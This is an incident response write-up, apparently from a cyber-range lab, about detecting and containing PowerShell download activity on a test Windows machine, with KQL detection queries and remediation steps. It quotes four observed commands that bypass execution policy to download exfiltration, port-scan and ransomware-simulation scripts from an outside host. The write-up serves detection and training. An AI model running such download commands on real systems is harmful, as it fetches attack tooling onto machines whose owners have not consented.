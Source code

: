 # 🔍 Incident Response Analysis: Identifying Suspicious PowerShell Web Requests

![image](https://github.com/user-attachments/assets/2edf7e2d-294f-4ea4-a8a8-11fefded19ad)

## 🕒 Timeline and Findings

### 📌 Alert Rule Creation
An alert rule was created using the following query to detect suspicious PowerShell activity on **windows-target-1**:

```kusto
let TargetDevice = "windows-target-1";
DeviceProcessEvents
| where DeviceName == TargetDevice
| where FileName == "powershell.exe" and InitiatingProcessCommandLine contains "Invoke-WebRequest"
```

---

## 🔍 Detection and Analysis

### 📢 Incident Overview
During the investigation of the **ARJ - PowerShell Suspicious Web Request** incident, it was discovered that PowerShell commands were executed on **windows-target-1**, leading to the download of multiple scripts.

**Incident Breakdown:**
- **Affected Device:** 1 (`windows-target-1`)
- **Affected User:** 1
- **Downloaded Scripts:** 4
- **Execution Method:** PowerShell commands

### 🖥️ Powershell Commands Observed
The following PowerShell commands were executed on the affected machine:

```powershell
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1
"cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
```

### 🗣️ User Interaction
The affected user was contacted regarding their activity around the time of the suspicious logs.  
They stated that they attempted to install a **free** piece of software, saw a **black screen** for a few seconds, and then "nothing happened."

---

## 📊 Execution Confirmation

Using **Microsoft Defender for Endpoint (MDE)** and **Sentinel**, it was confirmed that the downloaded scripts were actually executed. The following query was used:

```kusto
let TargetHostname = "windows-target-1"; // Replace with the name of your VM as it appears in logs
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]); // Add script names
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
| summarize TimeRan = count() by AccountName, DeviceName, FileName, ProcessCommandLine
```

---

## 🛠️ Reverse Engineering Analysis

The scripts were forwarded to the **malware reverse engineering team** for analysis. Findings:

| Script Name          | Functionality |
|----------------------|--------------|
| `portscan.ps1`      | Scans an IP range for open ports and logs results. |
| `exfiltratedata.ps1`| Generates fake employee data, compresses it, and uploads it to Azure Blob Storage. |
| `eicar.ps1`         | Creates an **EICAR** test file to trigger antivirus detection. |
| `pwncrypt.ps1`      | Encrypts fake company data and drops a ransom note with decryption instructions. |

---

## 🚑 Containment, Eradication, and Recovery

### 🛡️ Immediate Actions Taken
1. **Isolated the affected machine** in **Microsoft Defender for Endpoint (MDE)**.
2. **Ran a full anti-malware scan** on the system.
3. **Verified system integrity** after cleaning and removed isolation.

---

## 📈 Post-Incident Activities

### 📌 Security Enhancements Implemented:
✅ **User Awareness Training**
   - Affected user was enrolled in an **advanced cybersecurity training program**.
   - Upgraded the organization's security awareness training package via **KnowBe4**.
   - Increased training frequency.

✅ **PowerShell Restriction Policy**
   - Implemented a policy restricting **PowerShell execution** for non-essential users.

✅ **Monitoring Improvements**
   - Enhanced monitoring rules to **detect and alert** on PowerShell execution with `Invoke-WebRequest`.

---

## 🎯 Conclusion
The incident was successfully mitigated, and no sensitive company data was compromised.  
However, it highlighted gaps in **user awareness and PowerShell execution policies**, which have now been addressed.

---

📌 **Next Steps**
- Conduct a **red team simulation** to assess the effectiveness of new security controls.
- Continue monitoring for any similar PowerShell-based threats.
- Reinforce **endpoint protection policies** to prevent unauthorized script execution.

---

🔒 **Cybersecurity Team Response Log**  
*Prepared by: Rasheed Jimoh*  
*Date: February 25, 2025*  
*Organization: RJInnovateHub*  
